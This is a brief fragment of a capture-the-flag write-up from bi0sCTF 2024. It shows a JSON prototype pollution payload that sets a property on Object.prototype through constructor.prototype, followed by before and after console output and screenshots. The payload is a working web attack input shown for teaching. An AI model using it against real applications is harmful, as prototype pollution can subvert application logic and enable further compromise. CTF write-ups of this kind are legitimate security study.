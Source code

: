 **Payload:**
```json
{"data":[{"title":"option(foobar).constructor.prototype.foo = \"bar\";optional"},{"author":"optional"}]}
```

**Before:**
```
console.log({}.foo);
undefined
```

**After polluted:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/bi0sCTF-2024/images/Pasted%20image%2020240226135155.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/bi0sCTF-2024/images/Pasted%20image%2020240226135205.png)
